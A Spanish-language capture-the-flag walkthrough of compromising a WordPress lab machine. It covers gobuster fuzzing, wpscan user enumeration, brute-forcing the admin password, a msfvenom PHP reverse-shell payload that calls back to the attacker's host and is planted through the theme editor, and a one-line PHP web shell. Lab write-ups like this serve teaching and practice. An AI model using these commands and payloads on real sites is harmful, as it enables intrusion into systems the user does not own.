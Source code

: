 Entornos wordpress --> Diferentes configuraciones que puede tener para desarrollar, probar y poner en funcionamiento tu sitio web.


- Tenemos una maquina con el puerto 80 abierto, vamos a usar fuzzing utilizando la herramienta ==gobuster==

![](../Imagenes/Pasted%20image%2020250107201932.png)

- Tenemos wordpress, vamos a investigar

![](../Imagenes/Pasted%20image%2020250107202029.png)

- Vemos que lo carga incompleto.
	- Esto pasa porque hace falta que la IP de la maquina victima este apuntando al dominio de wordpress. Hay que editar el fichero /etc/hosts.
	- Pero que dominio vamos a utilizar?
![[Pasted image 20250107202212.png]]
- Se repite mucho el directorio internal.thm, vamos a ingresarlo.

![](../Imagenes/Pasted%20image%2020250107202431.png)


![](../Imagenes/Pasted%20image%2020250107202452.png)

- Ya estamos dentro de la pagina.
- Cuando estamos en wordpress, podemos poder hacer un fuzzing a la pagina para encontrar un login web.

![](../Imagenes/Pasted%20image%2020250107203016.png)

- Podemos entrar al login web.

![](../Imagenes/Pasted%20image%2020250107203106.png)

- Aquí debemos usar ==wpscan==
- WPSCAN --> Escanear y auditar la seguridad de sitios web basados en Wordpress.
- Usamos el siguiente comando:
```
wpscan --url (IP_VICTIMA_DIRECTORIO) --enumerate u,vp
```

![](../Imagenes/Pasted%20image%2020250107205024.png)

- Nos dio un usuario, por lo tanto podemos hacer fuerza bruta con ==wpscan==.
```
wpscan --url (IP_VICTIMA_DDIRECTORIO) --passwords /usr/share/wordlists/rockyou.txt --usernames admin
```
- Ya tenemos contraseña:

![](../Imagenes/Pasted%20image%2020250107210613.png)

- Ahora nuestro objetivo es inyectar un código malicioso en .php
- En este caso no podemos subir archivos, pero si podemos editar.

![](../Imagenes/Pasted%20image%2020250107210731.png)

- Nos vamos a Appearance > Theme Editor y nos saldra un word edition.

![](../Imagenes/Pasted%20image%2020250107210845.png)

- En este word edition vamos a agregar un código malicioso.
- Pero antes, a la derecha sale un listado de files, vamos a seleccionar ==Theme Footer==

![](../Imagenes/Pasted%20image%2020250107211018.png)

- Eliminamos todo el código que ahí aparece.
	- Tenemos que poner el payload en msfvenom.
- Para este payload lo vamos a crear en msfvenom con el siguiente comando:
```
msfvenom -p php/reverse_php LHOST=(IP_MAQUINA_ATACANTE) LPORT=(PUERTO) -f raw > pwned.php
```

![](../Imagenes/Pasted%20image%2020250107211413.png)

- Hacemos un cat en el payload y eso lo ponemos en la pagina.

![](../Imagenes/Pasted%20image%2020250107211623.png)

- le damos a update file, tenemos a nuestra maquina a escucha y volvemos a la pagina IP/blog, ya tenemos conexión.

- Si solo tenemos el puerto 80 abierto, y queremos acceder a la maquina victima, si entramos al wordress, logeamos y configuramos un directorio, debemos poner el siguiente comando:

```
<?php
		system($_GET['cmd']);
?>
```
- Así cuando ejecutemos el directorio, vamos a poder ejecutar comandos en el URL y hacer una reverse para poder entrar.
- Nos metemos a la URL para ejecutar el directorio que modificamos agregándole `?cmd=(COMANDO)`

